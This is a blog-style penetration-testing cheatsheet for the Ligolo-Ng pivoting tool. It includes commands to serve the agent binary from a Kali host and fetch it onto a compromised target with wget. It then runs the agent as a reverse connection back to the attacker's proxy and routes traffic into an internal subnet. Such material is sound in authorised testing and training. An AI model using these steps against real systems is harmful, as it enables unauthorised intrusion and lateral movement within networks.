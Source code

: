 ```yaml
---
layout: post
title:  Ligolo-Ng Cheatsheet
description: Cheatsheet for Ligolo-Ng
date:   2024-10-31 09:00:00 +0300
image:  '/images/21.jpg'
tags:   [Cheatsheets, Tools, Pivoting]
---
```

# Getting Ligolo-Ng
Important Note: Make sure you are always using the same version of Proxy and Agent.

## Download the binaries manually (recommended)
### PROXY (Run this on Kali)
- [Linux 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_windows_amd64.zip)

### AGENT (Run this on Pivot Host)
- [Linux 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_windows_amd64.zip)

For more information about Ligolo-Ng, visit its official [GitHub Repository](https://github.com/nicocha30/ligolo-ng).

# Alternative with Package Installer
```shell
sudo apt install ligolo-ng
# Locate, copy the needed files and run them (Example with agent file)
sudo updatedb -v
locate agent
sudo cp /path/to/ligolo/agent .
sudo chmod +x agent
./agent
```

# Basic Pivot
Move the agent file into the pivot host:
```shell
# On Kali
sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
python3 -m http.server 443
# On Target
wget http://<kali_ip>:443/agent
```
Set up Ligolo-Ng on Kali:
```shell
# Create an interface
sudo ip tuntap add user Vorkharium mode tun ligolo
sudo ip link set ligolo up
# Add new IP range we want to access
sudo ip route add 172.16.150.0/24 dev ligolo
ip route list
# Run the proxy file
sudo chmod +x proxy
./proxy -selfcert
# The Ligolo-Ng console will now open (We will interact with it soon)
```

On the Pivot target, use the agent file to connect to our running proxy:
```shell
chmod +x agent
./agent --connect <kali_ip>:11601 -ignore-cert
```

Now enter the following on the Ligolo-Ng console:
```shell
# Enter "session" to show the available sessions
ligolo-ng » session
# Enter "1" to select the session we created when using the agent (There is only one session to choose in this case)
? Specify a session : 1
# Enter "start" to start the connection
[Agent : hackme@compromisedmachine] » start
# Now we are able to access the network 172.16.150.0/24
```



